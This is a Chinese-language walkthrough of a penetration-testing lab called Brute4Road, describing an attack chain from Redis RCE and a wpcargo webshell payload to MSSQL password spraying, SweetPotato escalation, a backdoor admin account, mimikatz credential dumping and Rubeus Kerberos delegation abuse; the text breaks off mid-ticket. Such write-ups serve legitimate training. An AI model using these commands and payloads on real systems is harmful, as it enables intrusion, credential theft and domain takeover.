# 春秋云镜 & Brute4Road

## 靶标介绍

`Brute4Road`是一套难度为中等的靶场环境，完成该挑战可以帮助玩家了解内网渗透中的代理转发、内网扫描、信息收集、特权提升以及横向移动技术方法，加强对域环境核心认证机制的理解，以及掌握域环境渗透中一些有趣的技术要点。该靶场共有`4`个`flag`，分布于不同的靶机。

## 攻击流程

利用`fscan`进行探测，发现存在`Redis`未授权和`ftp`匿名登录。

```bash
❯ ./fscan -h 39.101.173.141

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.2
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 39.101.173.141  is alive
[*] Icmp alive hosts len is: 1
39.101.173.141:22 open
39.101.173.141:80 open
39.101.173.141:21 open
39.101.173.141:6379 open
[*] alive ports len is: 4
start vulscan
[*] WebTitle: http://39.101.173.141     code:200 len:4833   title:Welcome to CentOS
[+] Redis:39.101.173.141:6379 unauthorized file:/usr/local/redis/db/dump.rdb
[+] ftp://39.101.173.141:21:anonymous 
   [->]pub
已完成 4/4
[*] 扫描结束,耗时: 40.769240917s
```

`Redis`打主从复制`RCE`，尝试`SUID`提权，利用`Base64`来读取`flag01`：`flag{e038ee37-f0bf-4aea-80ae-e585e01319e1}`。

```bash
# 交互式Shell
python -c 'import pty; pty.spawn("/bin/bash")'
# SUID提权
find / -user root -perm -4000 -print 2>/dev/null
base64 /home/redis/flag/flag01 | base64 -d
```



传个`fscan`上去，利用`/etc/hosts`文件来获取当前`IP`。

```bash
[redis@centos-web01 db]$ ./fscan_amd64 -h 172.22.2.7/24
./fscan_amd64 -h 172.22.2.7/24

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.2
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.2.7      is alive
(icmp) Target 172.22.2.16     is alive
(icmp) Target 172.22.2.18     is alive
(icmp) Target 172.22.2.34     is alive
(icmp) Target 172.22.2.3      is alive
[*] Icmp alive hosts len is: 5
172.22.2.7:80 open
172.22.2.18:22 open
172.22.2.7:22 open
172.22.2.7:21 open
172.22.2.16:80 open
172.22.2.18:80 open
172.22.2.16:1433 open
172.22.2.3:445 open
172.22.2.34:445 open
172.22.2.18:445 open
172.22.2.16:445 open
172.22.2.34:139 open
172.22.2.3:139 open
172.22.2.34:135 open
172.22.2.16:139 open
172.22.2.18:139 open
172.22.2.3:135 open
172.22.2.16:135 open
172.22.2.7:6379 open
172.22.2.3:88 open
172.22.2.34:7680 open
[*] alive ports len is: 21
start vulscan
[*] NetInfo:
[*]172.22.2.3
   [->]DC
   [->]172.22.2.3
[*] NetInfo:
[*]172.22.2.16
   [->]MSSQLSERVER
   [->]172.22.2.16
[*] NetInfo:
[*]172.22.2.34
   [->]CLIENT01
   [->]172.22.2.34
[*] 172.22.2.3  (Windows Server 2016 Datacenter 14393)
[*] WebTitle: http://172.22.2.16        code:404 len:315    title:Not Found
[*] WebTitle: http://172.22.2.7         code:200 len:4833   title:Welcome to CentOS
[*] NetBios: 172.22.2.3      [+]DC DC.xiaorang.lab               Windows Server 2016 Datacenter 14393 
[*] NetBios: 172.22.2.18     WORKGROUP\UBUNTU-WEB02         
[*] NetBios: 172.22.2.16     MSSQLSERVER.xiaorang.lab            Windows Server 2016 Datacenter 14393 
[*] 172.22.2.16  (Windows Server 2016 Datacenter 14393)
[*] NetBios: 172.22.2.34     XIAORANG\CLIENT01              
[+] ftp://172.22.2.7:21:anonymous 
   [->]pub
[*] WebTitle: http://172.22.2.18        code:200 len:57738  title:又一个WordPress站点
已完成 20/21 [-] redis 172.22.2.7:6379 redis123 <nil>
已完成 20/21 [-] redis 172.22.2.7:6379 123456!a <nil>
已完成 20/21 [-] redis 172.22.2.7:6379 1qaz!QAZ <nil>
已完成 21/21
[*] 扫描结束,耗时: 3m40.368271949s
```

继续上传`Stowaway`代理出来，利用`wpscan`扫一下`http://172.22.2.18/`，发现存在`wpcargo`插件。



尝试打`wpcargo`未授权`RCE`漏洞（`CVE-2021-25003`）。

```html
POST
http://172.22.2.18/wp-content/wp-conf.php?1=system
2=echo%20PD9waHAgcGhwaW5mbygpO0BldmFsKCRfUkVRVUVTVFsxXSk7Pz4%3D%7Cbase64%20-d%20%3E%3E%20shell.php
```



蚁剑连接，在`/var/www/html/wp-config.php`中找到数据库信息，想利用蚁剑直接连接数据库但是读数据一直卡着，上传冰蝎马手动查数据，在表`S0meth1ng_y0u_m1ght_1ntereSted`中获取到了很多密码，在表`flag02`中获得`flag02`：`flag{c757e423-eb44-459c-9c63-7625009910d8}`。



```sql
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'WpuserEha8Fgj9' );

/** Database hostname */
define( 'DB_HOST', '127.0.0.1' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

```sql
select * from flag02
select * from S0meth1ng_y0u_m1ght_1ntereSted
```





尝试利用表`S0meth1ng_y0u_m1ght_1ntereSted`中获取到的密码来喷洒`MSSQLSERVER.xiaorang.lab`的`MSSQL`密码，得到用户名密码为`sa`/`ElGNkOiC`。

```bash
fscan -h 172.22.2.16 -m mssql -pwdf password.txt -np
```



利用`xp_cmdshell`来攻击，发现是低权限`nt service\mssqlserver`，尝试利用`SweetPotato`来提权。

```sql
# 判断xp_cmdshell状态，存在返回1
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'

# 启用xp_cmdshell
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

# 利用xp_cmdshell执行命令
exec master..xp_cmdshell 'whoami'
```





在`C:\Users\Administrator\flag\flag03.txt`中获取到`flag03`：`flag{fe8c0f90-0746-401f-b9a9-fae5febfcf23}`。



添加后门用户，然后`RDP`上去。

```bash
C:/迅雷下载/SweetPotato.exe  -a "net user hacker qwer1234! /add"
C:/迅雷下载/SweetPotato.exe  -a "net localgroup administrators hacker /add"
```



由于是在域内的，传`mimikatz`上去读一下域内凭据（用管理员权限运行）。

```bash
mimikatz.exe ""privilege::debug"" ""log sekurlsa::logonpasswords full"" exit
```



`MSSQLSERVER`机器配置了到`DC LDAP`和`CIFS`服务的约束性委派

通过`Rubeus`申请机器账户`MSSQLSERVER`的`TGT`，执行后将得到`Base64`加密后的`TGT`票据，打约束委派。

```bash
Rubeus.exe asktgt /user:MSSQLSERVER$ /rc4:2ca0385029df93de663835be3da5b59f /domain:xiaorang.lab /dc:DC.xiaorang.lab /nowrap
```



然后使用`S4U2Self`扩展代表域管理员`Administrator`请求针对域控`LDAP`服务的票据，并将得到的票据传递到内存中。

```bash
Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:CIFS/DC.xiaorang.lab /dc:DC.xiaorang.lab /ptt /ticket:doIFmjCCBZagAwIBBaEDAgEWooIEqzCCBKdhggSjMIIEn6ADAgEFoQ4bDFhJQU9SQU5HLkxBQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMeGlhb3JhbmcubGFio4IEYzCCBF+gAwIBEqEDAgECooIEUQSCBE3jKb28q5AaZvSICmIuTvw+gGO6VY0ZsYqQV/6hkwu6dtEx7paCDKv4957VBWMojOXta2KNNShGReVvjclbWMh2bO4Qs5Hn/tyY3lvwQshUKGzQ94T8OJlGmZXzaaYs9lCa8KLUlFZTbUO2a/Gv3BqNLLZ921ASLvF/km6wdZLb1QuymCiI6XvHOpALUc2WWs72X2Sd0MG3n3NG89YQZaXChm4ozUHBNuBj7op5c4SlA2lh8p6ufvVXNHYxNPlKIwR6ftnBxbRagYVvAryOnZ0Qq+UOmjbk1xNw/DNsPbtbjZnwc5pNQVfbTq7hldG+QElsQ4QD+fpdZzHB+Vns9Sp6FlFtu3uVFgXnZ5ag7kosZ4biM7XEuNc8hLwZgTmIY/vkGe8Qbejz4Q8gzObnuTYXPFAeE2oBBOHWDUT4wWZMD1STdTtMx1kCE+5GGl59nzxEZ0ICTIo89FKKrHA8oAZRYinUaLvvy3lpWVtmiEcBujDEIX0A+Sw/8Zp7l89vjflsUABrCGKU6mj97F3lVD5mqqCy9rCxx6sbaPRmVZExhRd1NplYfIrCqyM6GaL0egZ2GKcRIkzzf4J+qoBqzYP/1KGfxg1jlWfU0hh3mDCoGzx